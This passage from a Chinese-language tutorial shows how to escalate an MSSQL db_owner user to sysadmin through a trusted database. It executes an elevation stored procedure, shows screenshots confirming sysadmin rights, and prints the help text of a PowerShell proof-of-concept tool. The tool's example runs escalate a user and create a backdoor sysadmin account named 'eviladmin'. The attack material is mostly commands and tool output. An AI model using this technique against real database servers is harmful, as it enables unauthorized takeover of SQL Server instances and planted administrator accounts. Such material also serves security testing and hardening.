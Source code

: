 3.提权至sysadmin

    USE MyTestdb01
    EXEC sp_elevate_me

![12.png](resource/Mssql受信用数据库提权/media/rId42.png)

再次检查权限

![13.png](resource/Mssql受信用数据库提权/media/rId43.png)

已经是sysadmin权限了，查看用户的属性也可以看到已经到sysadmin权限了

![14.png](resource/Mssql受信用数据库提权/media/rId44.png)

这里可以利用脚本已经一键利用

### poc

> Invoke-SqlServer-Escalate-Dbowner.psm1

    function Invoke-SqlServer-Escalate-DbOwner
    {
        <#
        .SYNOPSIS
           This script can be used escalate privileges from a db_owner to a sysadmin on SQL Server. 

        .DESCRIPTION
           This script can be used escalate privileges from a db_owner to a sysadmin on SQL Server.This is 
           possible when a user has the db_owner role in a trusted database owned by a sysadmin .  
           This script can accept SQL Credentials or use the current user's trusted connection.

        .EXAMPLE
           Getting sysadmin as a user that has the db_owner role in a trusted database owned by a sysadmin.

           PS C:\> Invoke-SqlServer-Escalate-DbOwner -SqlUser myappuser -SqlPass MyPassword! -SqlServerInstance SQLServer1\SQLEXPRESS
           [*] Attempting to Connect to SQLServer\SQLEXPRESS as myappuser...
           [*] Connected.
           [*] Enumerating accessible trusted databases owned by sysadmins...
           [*] 3 accessible databases found.
           [*] Checking if current user has db_owner role in any of them...
           [*] myappuser as db_owner role in 2 databases.
           [*] Attempting to evelate myappuser to sysadmin via master database...
           [*] Success! - myappuser is now a sysadmin.
           [*] All done.

        .EXAMPLE
           Creating new sysadmin, using a user that has the db_owner role in a trusted database owned by a sysadmin.
           
           PS C:\> Invoke-SqlServer-Escalate-DbOwner -SqlUser myappuser -SqlPass MyPassword! -SqlServerInstance SQLServer1\SQLEXPRESS -newuser eviladmin -newPass MyPassword!
           [*] Attempting to Connect to SQLServer1\SQLEXPRESS as myappuser...
           [*] Connected.
           [*] Enumerating accessible trusted databases owned by sysadmins...
           [*] Found 2 trusted databases owned by a sysadmin.
           [*] Checking if myappuser the has db_owner role in any of them...
           [*] myappuser has db_owner role in 1 of the databases.
           [*] Attempting to create and add eviladmin to the sysadmin role via the MyAppDb database...
           [*] Success! - eviladmin is now a sysadmin.
           [*] All done.
